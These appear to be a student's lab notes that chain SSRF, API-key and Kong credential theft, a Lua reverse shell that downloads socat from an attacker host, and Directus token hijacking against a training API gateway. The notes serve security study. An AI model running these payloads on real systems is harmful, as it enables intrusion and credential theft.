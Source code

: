directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Authenticated request to /render service
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Adjust your HTML payload so the credentials are included in the PDF the service returns:
This version is as a pdf
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck -Outfile apicredentials.pdf
```
This version is as html, learned about the output parameter from: https://github.com/alvarcarto/url-to-pdf-api
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"; "output"="html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Using flask as a callbackserver to server the javascript payloads and process their outputs.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/exfiltration_extramile_chunked.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/api-key-extraction-callback-server.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

rce:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/rce.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri 'http://apigateway:8000/donkey' -SkipHttpErrorCheck
```

Interactive shell to stop the gateway from hanging. My idea was to use a static binary of socat to gain an interative shell.
```lua
local q = string.char(39); -- we use this to avoid a nesting quotes bullshit 39 is ascii for 
local p0 = '/tmp/socat exec:';
local p1 = 'bash -li';
local p2 = ',pty,stderr,setsid,sigint,sane tcp:192.168.119.163:4444';
local p3 = ' &';
local payload= p0 .. q .. p1 .. q .. p2 .. p3; -- .. is the string concatenation operate (kind of like php)
os.execute('wget http://192.168.119.163/socat -O /tmp/socat');os.execute('chmod +x /tmp/socat');os.execute(payload);
```
As a one liner
```lua
local q = string.char(39);local p0 = '/tmp/socat exec:';local p1 = 'bash -li';local p2 = ',pty,stderr,setsid,sigint,sane tcp:192.168.119.163:4444';local p3 = ' &';local payload= p0 .. q .. p1 .. q .. p2 .. p3;os.execute('wget http://192.168.119.163/socat -O /tmp/socat');os.execute('chmod +x /tmp/socat');os.execute(payload);
```
We can setup the reverse shell service with:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/rce_interactive_shell.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Setup the listener:
```zsh
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
Trigger the reverse shell:
```powershell
iwr -Uri 'http://apigateway:8000/zinhart' -SkipHttpErrorCheck
```
Lastly we can verify the gateway is not hung up by reusing one of our previous payloads
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/callback?gatewaynothung"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

With the other plugins available in Kong API Gateway, find a way to log all traffic passing through the gateway. Inspect the traffic for any sensitive data. You should only need five to ten minutes worth of logging. The logging plugin can be disabled by sending a GET request to /plugins to get the plugin's id, then sending a DELETE request to /plugins/{id}. Review the authentication documentation for Directus2 and use the logged data to gain access to a valid access token for Directus:
Enumerate all services:
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/traffic-log.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Setup directus logging on all services:
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/traffic-log.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Gaining a valid access token, the only part we have to change is the reset token:
```powershell
iwr -Uri "http://apigateway:8000/auth/refresh" -method Post -body (@{"refresh_token"="QcgJIS2Jq5rbaiBQBNVIWexc2FlfVNgVJ-0irf03Fc_NMdpgo93Hprg3_hmQpT16"; "mode"="json"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```